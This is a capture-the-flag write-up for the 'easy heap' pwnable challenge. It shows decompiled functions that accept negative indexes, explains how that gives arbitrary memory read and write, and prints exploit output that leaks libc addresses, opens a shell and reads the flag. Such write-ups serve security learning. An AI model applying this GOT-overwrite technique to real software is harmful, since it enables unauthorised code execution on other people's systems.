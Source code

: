 # easy heap
**Category:** Pwnable
**Points:** 100
**Solves:** 44
**Description:**
> Download in : [Link](https://drive.google.com/open?id=1VNi6Nbi5i-r9D5sZo_ZdgtUkA5u_3g8B)
> Service: nc armexploit.acebear.site 3002

## Writeup
```
$ file easy_heap
easy_heap: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=89e53b704c36245e1ab38a71c9f1349898e373ea, stripped
```

### The Bug
Binary has some functions: create, edit, delete, show and exit.


* We can write address into bss by input **NAME (0x0804B0E0)**.
* Edit, delete, show functions not check idx if it is negative and integer overflow by **DWORD PTR [idx*4+0x0804B0A0]**

```c
int show()
{
  int idx; // [esp+Ch] [ebp-Ch]

  printf("Index: ");
  idx = readInt();
  if ( idx > 9 )
    return puts("Out of list name (0 <= index < 10)!!!");
  if ( !LIST[idx] )
    return puts("None name");
  printf("This name %d is: %s\n", idx, LIST[idx]);
  return puts("Done!");
}

int edit()
{
  int idx; // [esp+Ch] [ebp-Ch]

  printf("Index: ");
  idx = readInt();
  if ( idx > 9 )
    return puts("Out of list name (0 <= index < 10)!!!");
  if ( !LIST[idx] )
    return puts("None name");
  printf("Input new name: ");
  secure_read(LIST[idx], 0x20u);
  return puts("Done!");
}
```

So we can read and write arbitrary memory address.

### Exploit
[easy_heap.py](/pwn/easy_heap/easy_heap.py)
```
$ python easy_heap.py 3
[+] Opening connection to easyheap.acebear.site on port 3002: Done
[*] atoi_got: 0xf7def050
[*] baselibc: 0xf7dc2000
[*] system: 0xf7dfc940
[*] str_bin_sh: 0xf7f1b00b
[*] Switching to interactive mode
 $ id
uid=1000(easy_heap) gid=1000(easy_heap) groups=1000(easy_heap)
$ cat /ho*/*/flag
AceBear{m4yb3_h34p_i5_3a5y_f0r_y0u}$
```

